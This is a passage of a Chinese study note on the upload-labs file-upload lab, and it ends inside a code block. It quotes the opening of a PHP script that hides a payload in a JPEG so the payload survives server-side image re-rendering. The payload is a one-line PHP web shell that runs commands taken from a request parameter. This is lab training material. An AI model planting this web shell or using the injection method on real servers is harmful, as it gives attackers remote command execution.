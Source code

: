 但这个图片不能直接改，否则上传时会报不是jpg

先传一下1.jpg，得到下面这个图片（文件缩小了）

![1-upload](upload-labs学习笔记/1-upload.jpg)

然后再运行脚本，脚本内容为

```php
<?php
	/*
	The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations
	caused by PHP functions imagecopyresized() and imagecopyresampled().
	It is necessary that the size and quality of the initial image are the same as those of the processed
	image.
	1) Upload an arbitrary image via secured files upload script
	2) Save the processed image and launch:
	php jpg_payload.php <jpg_name.jpg>
	In case of successful injection you will get a specially crafted image, which should be uploaded again.
	Since the most straightforward injection method is used, the following problems can occur:
	1) After the second processing the injected data may become partially corrupted.
	2) The jpg_payload.php script outputs "Something's wrong".
	If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another 
	initial image.
	Sergey Bobrov @Black2Fan.
	See also:
	https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
	*/

	$miniPayload = '<?=system($_GET[c]);?>';
	/*$miniPayload = '<?=`$_POST[c]`?>';*/
	
```